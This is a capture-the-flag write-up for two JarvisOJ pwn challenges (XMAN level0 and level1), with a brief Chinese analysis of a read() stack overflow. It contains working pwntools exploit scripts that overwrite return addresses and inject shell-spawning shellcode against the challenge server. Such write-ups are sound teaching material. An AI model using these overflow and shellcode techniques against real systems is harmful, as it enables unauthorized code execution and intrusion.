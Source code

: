 # Write up 0709

## [XMAN]level0

exp:  

```python
from pwn import *
#n = process('./level0')
n = remote('pwn2.jarvisoj.com', 9881)
print(n.recvline())
n.sendline('a'*(0x80+8) + 2*p64(0x400596))
n.interactive()
```



## [XMAN]level1

### 分析：

在vulnerable_function()中，read(0, &buf, 0x100u);存在栈溢出，观察栈推断出偏移量为0x88+4  

上一行中的 printf("What's this:%p?\n", &buf);输出了buf的地址，于是在buf中写入shellcode并溢出跳转回buf的初始地址执行shellcode

### exp:

```python
from pwn import *
#n = process('./level1')
n = remote('pwn2.jarvisoj.com', 9877)

offset = 0x88 + 4

n.recvuntil("What's this:")
buf_addr = n.recvuntil('?')[:-1]
print "buf_addr=" + buf_addr
buf_addr = int(buf_addr,16)
shellcode = asm(shellcraft.sh())

payload = shellcode
payload = (shellcode.ljust(offset,'a'))
payload += p32(buf_addr)

n.sendline(payload)
n.interactive()
```

